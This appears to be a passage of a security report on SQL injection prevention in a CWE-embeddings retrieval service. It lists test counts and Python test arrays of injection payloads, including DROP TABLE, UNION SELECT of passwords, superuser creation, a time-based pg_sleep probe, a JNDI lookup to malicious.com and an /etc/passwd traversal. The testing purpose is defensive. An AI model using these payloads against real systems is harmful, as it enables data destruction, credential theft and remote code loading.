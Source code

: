 **Log Analysis Shows Comprehensive Coverage:**
- 35+ distinct malicious payloads blocked and logged
- Zero false positives on legitimate queries
- Complete audit trail for security analysis

#### **1.1.3 Security Testing Validation**

The SQL injection prevention has been validated through **comprehensive testing**:

##### **Test Coverage Analysis**

**398 Test Cases Covering:**

1. **Basic Injection Patterns (15 tests)**
   ```python
   malicious_table_names = [
       "cwe_embeddings'; DROP TABLE users; --",
       "cwe_embeddings UNION SELECT password FROM auth_tokens --",
       "cwe_embeddings/**/UNION/**/SELECT/**/1,2,3,4,5--",
       "cwe_embeddings' OR '1'='1",
       # ... 11 more patterns
   ]
   ```

2. **Advanced Attack Vectors (8 tests)**
   ```python
   advanced_attacks = [
       ("Time-based blind", "cwe_embeddings'; SELECT pg_sleep(10); --"),
       ("Stacked queries", "cwe_embeddings; CREATE USER hacker WITH SUPERUSER;"),
       ("Hex encoded", "cwe_embeddings%27%3B%20DROP%20TABLE%20users%3B%20--"),
       ("LDAP injection", "${jndi:ldap://malicious.com/exploit}"),
       ("Path traversal", "../../../etc/passwd"),
       ("NoSQL style", "cwe_embeddings'; db.users.drop(); --"),
       ("Case evasion", "CWE_embeddings'; DrOp TaBlE users; --"),
       ("Unicode", "cwe_embeddings\\u0027\\u003B\\u0020DROP\\u0020TABLE\\u0020users"),
   ]
   ```

3. **SQL Composable Object Verification (5 tests)**
   ```python
   def test_secure_query_generation():
       for query_name, query_func in test_queries:
           query = query_func()
           
           # Verify proper SQL composable object creation
           assert hasattr(query, 'as_string')
           
           # Verify no .format() vulnerabilities remain
           # (Cannot test query string without real DB connection,
           #  but object type verification ensures security)
   ```

4. **Cross-Method Validation (25 tests)**
   - Tests each query builder method with malicious table names
   - Verifies consistent security behavior across all retrievers
   - Validates error handling and logging

